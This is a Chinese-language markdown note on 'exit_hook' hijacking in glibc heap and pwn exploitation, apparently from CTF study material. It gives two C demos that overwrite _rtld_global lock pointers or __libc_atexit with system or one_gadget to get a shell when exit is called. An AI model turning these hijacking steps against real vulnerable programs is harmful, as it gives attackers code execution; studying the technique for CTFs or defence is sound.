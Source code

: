 # exit_hook劫持

`glibc-2.34`之前

## 四种方式

修改`_rtld_global._dl_rtld_lock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_unlock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
修改`_rtld_global._dl_rtld_unlock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`

调用exit即可触发漏洞

## 示例

```C
// 修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
#include <stdio.h>
#include <stdlib.h>

char *binsh = "/bin/sh";

int main(void)
{
    /* 寻找地址 */

    // p/x &system-$libc
    char *libc_base = ((char *)(&system) - 0x52290);

    // p/x &_rtld_global._dl_rtld_lock_recursive
    // p/x &_rtld_global._dl_rtld_unlock_recursive
    size_t *rtld_lock_default_lock_recursive = (size_t *)(libc_base + 0x228f68);

    // p &_rtld_global._dl_load_lock
    size_t *dl_load_lock = (size_t *)(libc_base + 0x228968);

    /* 修改地址 */
        
    // 设置 rtld_lock_default_lock_recursive 为 system
    *rtld_lock_default_lock_recursive = (size_t)&system;

    // 设置 _dl_load_lock 为 /bin/sh
    *dl_load_lock = *(size_t*)binsh;

    exit(1);
    return 0;
}
```

## exit_hook+

通过`exit()->__run_exit_handlers()`中的`HOOK`如下:

```C
  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());
```

但是2.35后面的版本不可写，之前的版本更新后也不可写，可以通过`gdb`动调查看`__libc_atexit`是否可写

```C
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    // p/x &system-$libc
    char *libc_base = ((char *)(&system) - 0x55410);
    // IDA进入exit函数后，查找_exit的交叉引用中含有exit的__run_exit_handlers的地方，找到函数指针的地址
    size_t* hook = libc_base + 0x1ED608;
    // 设置函数指针的地址为one_gadget的地址
    *hook = (size_t)(libc_base + 0xe6aee);
    // 触发
    exit(1);
    return 0;
}
```

### 寻找__libc_atexit

`IDA`进入`exit`函数后，查找`_exit`的交叉引用中含有`exit`的`__run_exit_handlers`的地方，找到函数指针的地址
